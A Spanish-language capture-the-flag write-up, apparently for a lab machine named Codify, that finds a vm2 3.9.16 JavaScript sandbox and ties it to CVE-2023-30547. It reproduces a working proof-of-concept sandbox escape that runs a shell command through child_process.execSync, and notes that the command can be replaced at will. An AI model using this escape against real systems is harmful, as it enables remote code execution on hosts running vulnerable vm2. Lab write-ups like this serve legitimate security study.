 ![web](/codify/web.png)
        
Esta web parece cumplir la función de ser un **sandbox** para la ejecución de código **JS** online, pero aparentemente cuenta con algunas restricciones para evitar que algún usuario malintencionado comprometa la seguridad de la web ;).

![Limitations](/codify/limitations.png)

Y dentro del editor de código, se puede ver lo siguiente:

![sandbox](/codify/editor.png)

Además de esto, al revisar la sección **about us**, se puede ver qué **software** se está utilizando para la gestión del código y su versión. 

![about](/codify/about.png)

Según el hipervínculo, se está utilizando vm2 en su versión 3.9.16.

>VM2 es una biblioteca popular que se utiliza para ejecutar código no confiable en un entorno aislado en Node. js.
{: .prompt-info}

![version](/codify/version.png)

Al buscar en internet, se encuentra que la versión está relacionada con el [CVE-2023-30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547), donde se explica que debido a un error se pueden llegar a ejecutar comandos (**RCE**) dentro del host víctima para escapar del sandbox.


![cve](/codify/cve.png)

## Explotación

Conociendo el **CVE**, se encuentra el siguiente [PoC](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) en **GitHub**:

```javascript
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```
Solo hace falta cambiar el **payload** que se encuentra dentro del campo `execSync` por el comando que se desea ejecutar.
